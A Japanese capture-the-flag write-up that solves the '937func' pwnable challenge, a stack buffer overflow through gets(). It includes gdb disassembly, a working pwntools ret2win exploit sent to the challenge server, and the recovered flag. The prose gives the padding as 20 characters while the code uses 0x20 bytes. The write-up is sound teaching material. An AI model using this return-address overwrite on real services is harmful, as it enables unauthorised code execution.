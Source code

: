 # nag0m1CTF

https://nag0mictf.tk

## pwnable

### 937func

> If you get the "win" function, you get the treasure. Can you get it?
> 
> nc 3.18.62.210 11002

詳細な説明は**DreamWorld**にて行っているので省略します．

この問題はリターンアドレス書き換え問題となっています．

前問と同様に**gdb**を使用します．

```
> gdb 937func
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x0000000000400707 <+0>:     push   rbp
   0x0000000000400708 <+1>:     mov    rbp,rsp
   0x000000000040070b <+4>:     sub    rsp,0x20
   0x000000000040070f <+8>:     mov    QWORD PTR [rbp-0x20],0x0
   0x0000000000400717 <+16>:    mov    QWORD PTR [rbp-0x18],0x0
   0x000000000040071f <+24>:    mov    QWORD PTR [rbp-0x10],0x0
   0x0000000000400727 <+32>:    mov    QWORD PTR [rbp-0x8],0x0
   0x000000000040072f <+40>:    call   0x400687 <setup>
   0x0000000000400734 <+45>:    lea    rdi,[rip+0xc5]        # 0x400800
   0x000000000040073b <+52>:    call   0x400560 <puts@plt>
   0x0000000000400740 <+57>:    lea    rax,[rbp-0x20]
   0x0000000000400744 <+61>:    mov    rdi,rax
   0x0000000000400747 <+64>:    call   0x400580 <gets@plt>
   0x000000000040074c <+69>:    mov    eax,0x0
   0x0000000000400751 <+74>:    leave
   0x0000000000400752 <+75>:    ret
End of assembler dump.
```

今回注目するのは`0x0000000000400747 <+64>:    call   0x400580 <gets@plt>`の箇所です．

gets関数はセキュリティ上よくないと言われている関数です．

<br>

ひとまずたくさんの文字を送り込んでみます．

```
echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 3.18.62.210 11002
Do you jump the "win" function?
timeout: the monitored command dumped core
Segmentation fault
```

たくさんの文字を送ることで`Segmentation fault`を起こしています．

これが起きてしまうのがgets関数です．

<br>

ここで疑問は，問題文にwin関数があると言っているのに，main関数にはどこにもないという点です．

ちなみにsetup関数にもありません．

<br>

解法としては，main関数内に`0x000000000040074c <+69>:    mov    eax,0x0`になっており，returnアドレスがあるという点です．

getsの箇所でwin関数に飛ばすようにすることでシェルコード獲得できます．

returnアドレスはrbpからの8byteで記載されています．

したがって，**pwntools**のコードを用いて以下のコードを使用すると求められます．

<br>

最後に，win関数のアドレスを知る必要があります．

これは，gdbで知ることができます．

```
gdb-peda$ disassemble win
Dump of assembler code for function win:
   0x00000000004006e8 <+0>:     push   rbp
   0x00000000004006e9 <+1>:     mov    rbp,rsp
   0x00000000004006ec <+4>:     lea    rdi,[rip+0xf5]        # 0x4007e8
   0x00000000004006f3 <+11>:    call   0x400560 <puts@plt>
   0x00000000004006f8 <+16>:    lea    rdi,[rip+0xf5]        # 0x4007f4
   0x00000000004006ff <+23>:    call   0x400570 <system@plt>
   0x0000000000400704 <+28>:    nop
   0x0000000000400705 <+29>:    pop    rbp
   0x0000000000400706 <+30>:    ret
End of assembler dump.
```

`0x00000000004006e8 <+0>:     push   rbp`の箇所より，`0x00000000004006e8`という値を入手できます．

<br>

以上の内容から，gets関数でrbp-0x20からの入力になるため，20文字分のデータを入力したのち，win関数のアドレスを入力することで求められます．

上記の手順でプログラムを実行した際にうまくいかないことがあります．

このときは，main関数の最終文にある`ret`のアドレスを入れたのちにwin関数のアドレスを入力してください．

詳細は省かせていただきます．

```
from pwn import *

data = b'a' * 0x20 + p64(0x400752) + p64(0x4006ec)
print(data)
print(type(data))

# io = process("./937func")
io = remote("3.18.62.210", 11002)
print(io.readline())
io.sendline(data)
print(io.readline())
# io.interactive()
io.sendline(b"cat flag.txt")
print(io.readline())
```

これを実行すると以下のようになります．

```
> python3 937func.py
[+] Opening connection to 3.18.62.210 on port 11002: Done
b'Do you jump the "win" function?\n'
b'You got it!\n'
b'nag0m1{I7_i5_difficu17_7o_3nt3r_7he_c0rr3ct_4ddre55}\n'
```

